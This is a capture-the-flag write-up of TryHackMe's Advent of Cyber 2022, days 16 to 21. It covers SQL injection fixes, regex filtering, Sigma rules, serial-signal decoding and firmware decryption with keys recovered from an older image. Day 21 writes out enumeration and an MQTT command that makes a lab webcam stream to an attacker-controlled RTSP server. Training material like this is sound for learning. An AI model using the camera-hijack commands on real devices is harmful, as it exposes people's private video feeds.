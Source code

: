 # [Advent of Cyber 2022](https://tryhackme.com/room/adventofcyber4)

> Get started with Cyber Security in 24 Days - learn the basics by doing a new, beginner-friendly security challenge every day leading up to Christmas.

## Day 16: SQLi’s the king, the carolers sing

login to the code editor web

![image](https://user-images.githubusercontent.com/90561566/208238951-5dbdf03c-8915-4e81-bc4b-c18344efb5fb.png)

firstly, fix the elf.php with intval() function at line 4 and line 17

![image](https://user-images.githubusercontent.com/90561566/208239213-fee36b8b-9de0-4ef6-9d02-c1014ff751c8.png)

secondly, change it to prepare statement at search-toys.php

![image](https://user-images.githubusercontent.com/90561566/208239364-612d190b-f283-4e73-b0a0-83ddfb738fd1.png)

fix the toy.php with intval() function at line 4 and line 30

![image](https://user-images.githubusercontent.com/90561566/208239598-1849c47a-1715-46fc-977f-05b2aab2a066.png)

last one, fix the login.php with prepare statement

![image](https://user-images.githubusercontent.com/90561566/208239914-4e34c1f6-d918-4597-8907-8937146b5a4a.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/208239946-295dd51b-e96c-4f96-bb25-11587f6b278a.png)

## Day 17: Filtering for Order Amidst Chaos

this is a regex challenge, our job is filtering some words in that file

![image](https://user-images.githubusercontent.com/90561566/208287514-a910bd43-75c5-4ff1-bb0e-5d5f5bf9d422.png)

filter username

```
egrep '^[a-zA-Z0-9]{6,12}$' strings
```

![image](https://user-images.githubusercontent.com/90561566/208287658-f54fa92e-b091-48aa-9388-75b977da900c.png)

filter email

```
egrep '^.+@.+\.com$' strings
```

![image](https://user-images.githubusercontent.com/90561566/208287976-3bd87580-946a-4c11-b9b5-8be276abdbbf.png)

domain filter

```
egrep '^https?://(www.)?.+\..+' strings
```

![image](https://user-images.githubusercontent.com/90561566/208288210-710ff49a-a5f2-4ef2-a014-c3e159c7ea8e.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/208288270-87343200-0de1-4b0b-8cdb-1d0629b75d78.png)

![image](https://user-images.githubusercontent.com/90561566/208288278-4f12f4e7-8a63-426e-adb4-9fe351f885f5.png)

## Day 18: Lumberjack Lenny Learns New Rules

they give us a website with sigma template and we must writeout the rule for it IOC

![image](https://user-images.githubusercontent.com/90561566/208444236-456d1554-8e71-4658-a7bc-dca135ebcf5b.png)

before starting, you need remember some identifying characteristics below

![image](https://user-images.githubusercontent.com/90561566/208446122-209c33a3-d125-45c0-a462-419d9486a2ff.png)

firstly, edit the local_account_creation.yml

![image](https://user-images.githubusercontent.com/90561566/208445533-85c00bc7-6ad1-42ef-b734-0a50280a6bbb.png)

after finished, click on view log, a detection log has been captured

![image](https://user-images.githubusercontent.com/90561566/208445932-72b74eed-9f0d-413c-9134-27f34a9ee8f8.png)

next, edit the susp_software_discovery.yml

![image](https://user-images.githubusercontent.com/90561566/208448128-64dba09b-735e-4cfd-ac40-9760d5ed359c.png)

finally, edit the schtasks_creation.yml

![image](https://user-images.githubusercontent.com/90561566/208449251-8a99201e-ae45-4633-9559-7514c697dbfe.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/208449447-73528265-2ec1-451f-9911-69ec2c161566.png)

## Day 19: Wiggles go brrr

open the Logic 2.4.2 on Desktop with santa captured file to start analysis, ctrl and wheel your mouse to zoom out the signal

![image](https://user-images.githubusercontent.com/90561566/208622560-8f9e87a1-0289-4436-a21c-7d33ba934332.png)

zoom in at the first think line of D1 channel 1

![Untitled](https://user-images.githubusercontent.com/90561566/208624685-09c77009-0363-4823-9cb2-12a2c0647a91.png)

click on analyzer tab, choose async serial, let's analysis channel 1, Bit rate 4800

![Untitled](https://user-images.githubusercontent.com/90561566/208625727-29366b7f-3ef9-410d-b72c-41111662ebf7.png)

on the terminal icon, you can see the data

![image](https://user-images.githubusercontent.com/90561566/208626026-3762db2d-203b-44d7-9170-efbbfcb07471.png)

click on the plus and add another async serial, do the same with channel 0, Bit rate 4800

![image](https://user-images.githubusercontent.com/90561566/208626493-ccbf324b-9972-4962-9b30-7662bfacd833.png)

add another with channel 0 but Bit rate is 9600

![Untitled](https://user-images.githubusercontent.com/90561566/208627223-611b0760-b03b-4f93-ac8d-9228f8179a59.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/208627725-07e91f41-6bdf-4951-a364-84c71c17227e.png)

![image](https://user-images.githubusercontent.com/90561566/208627752-9cf2c012-ce5a-47eb-abd8-0f6abc4ebbfd.png)

## Day 20: Binwalkin’ around the Christmas tree

log into machine, we have some files here

![image](https://user-images.githubusercontent.com/90561566/209087570-e780b3df-da9e-4734-8bcf-2d2a569dc5a5.png)

```
cd bin
binwalk -E -N firmwarev2.2-encrypted.gpg
```

verify the file, it is probably encrypted

![image](https://user-images.githubusercontent.com/90561566/209087811-2f688995-e541-4a02-8f95-0d78c31f1c8c.png)

extracted the firmware from older version

```
cd ../bin-unsigned
extract-firmware.sh firmwarev1.0-unsigned
```

![image](https://user-images.githubusercontent.com/90561566/209088275-60c138b5-ddc9-4ee2-99cc-51d2b5beb052.png)

now find encrypted key and paraphrase

```
grep -ir key
grep -ir paraphrase
```

![image](https://user-images.githubusercontent.com/90561566/209088560-b0c3a28e-8627-4d91-803f-d0615e09a39f.png)

remember paraphrase is `Santa@2022`, it will be used for protecting the key

import these keys to gpg

```
gpg --import fmk/rootfs/gpg/private.key
gpg --import fmk/rootfs/gpg/public.key
gpg --list-secret-keys
```

![image](https://user-images.githubusercontent.com/90561566/209089102-0fc31d44-fdbf-4e7d-88fd-90ff10e938aa.png)

```
cd ../bin
gpg firmwarev2.2-encrypted.gpg
```

![image](https://user-images.githubusercontent.com/90561566/209089518-5656ff88-cd43-4e82-9c19-778b0a6f6fa0.png)

now, extract the firmware

```
extract-firmware.sh firmwarev2.2-encrypted
```

![image](https://user-images.githubusercontent.com/90561566/209090012-06436624-5419-46d7-a076-4dc126ee6ad8.png)

we can find flag here

![image](https://user-images.githubusercontent.com/90561566/209090408-09d46149-3efe-448f-90ca-048691784c49.png)

search for build version

![image](https://user-images.githubusercontent.com/90561566/209091293-345828de-f62d-4373-9443-12bc45934ef8.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/209091379-1321b113-5022-440d-b5e8-d0c748c6297b.png)

## Day 21: Have yourself a merry little webcam

scan the target

```
nmap -sV -sC -p1883 -T4 10.10.77.51
```

![image](https://user-images.githubusercontent.com/90561566/209133219-f48929fc-4f6b-4ebb-998d-da98a44db7d4.png)

we can see a lot of information has enumerated here

enumerate the device ID

```
mosquitto_sub -h 10.10.77.51 -t device/init
```

![image](https://user-images.githubusercontent.com/90561566/209133864-9f40cda3-9c2f-475f-8853-a50a1f16b702.png)

start an RTSP server

```
docker run --rm -it --network=host aler9/rtsp-simple-server
```

![image](https://user-images.githubusercontent.com/90561566/209135054-7b278899-f76c-498e-86bb-0d9c4a22ad33.png)

new tab and

```
mosquitto_pub -h 10.10.77.51 -t device/7CFHAWRYUZVN6PZFWCOI/cmd -m '{"CMD":"10","URL":"rtsp://10.10.93.62:8554/hello"}'
```

after get connected successful

```
vlc rtsp://127.0.0.1:8554/hello
```

Note the stream may take up to one minute to begin forwarding due to packet loss.

![image](https://user-images.githubusercontent.com/90561566/209141727-9dda9e3e-7d99-4dda-9eb7-f012899b6671.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/209141975-73f789a1-22e1-4f01-bf46-cbc441d7dcc3.png)

## Day 22: 















